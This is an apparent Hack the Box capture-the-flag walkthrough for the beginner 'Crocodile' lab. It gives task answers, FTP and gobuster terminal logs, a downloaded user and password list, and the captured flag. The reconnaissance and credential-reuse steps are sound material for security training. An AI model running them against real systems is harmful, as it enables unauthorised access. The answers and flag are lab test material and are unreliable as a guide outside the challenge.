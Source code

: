# Crocodile
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Crocodile
* Topic: [[PHP]] [[FTP]] [[gobuster]]
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What nmap scanning switch employs the use of default scripts during a scan? 
 - **nmap**
2. What service version is found to be running on port 21? 
- **vsftpd 3.0.3**
3. What FTP code is returned to us for the "Anonymous FTP login allowed" message? 
- **230**
4. What command can we use to download the files we find on the FTP server? 
- **get**
5. What is one of the higher-privilege sounding usernames in the list we retrieved? 
- **admin**
6. What version of Apache HTTP Server is running on the target host? 
- **2.4.4**
7. What is the name of a handy web site analysis plug-in we can install in our browser? 
- **Wappalyzer**
8. What switch can we use with gobuster to specify we are looking for specific filetypes? 
- **-x**
9. What file have we found that can provide us a foothold on the target? 
- **login.php**

---
## Flag:
Get the flag from the server:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.21.75
Connected to 10.129.21.75.
220 (vsFTPd 3.0.3)
Name (10.129.21.75:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||46610|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47650|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |******************************************|    33      228.55 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.44 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47203|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |******************************************|    62      438.74 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.91 KiB/s)
ftp> exit
221 Goodbye.
         
┌──(kali㉿kali)-[~/Downloads]
└─$ ll
total 8
-rw-r--r-- 1 kali kali 33 Jun  8  2021 allowed.userlist
-rw-r--r-- 1 kali kali 62 Apr 20  2021 allowed.userlist.passwd
      
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                     
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd

```

Now we have some users and their passwords, let's find a place to log in.

![](./attachments/Pasted%20image%2020220413002627.png)

There are no login options anywhere on the page.

We can use `gobuster` to brute-force hidden directories.

```console
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.124.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/04/12 18:30:03 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
Progress: 312 / 262995 (0.12%)
```

`/login.php` seems useful.

![](./attachments/Pasted%20image%2020220413003253.png)

Now we can try the credential we found.

![](./attachments/Pasted%20image%2020220413003420.png)

The flag.

**Flag:** `c7110277ac44d78b6a9fff2232434d16`

---
**Tags:** [[HackTheBox]]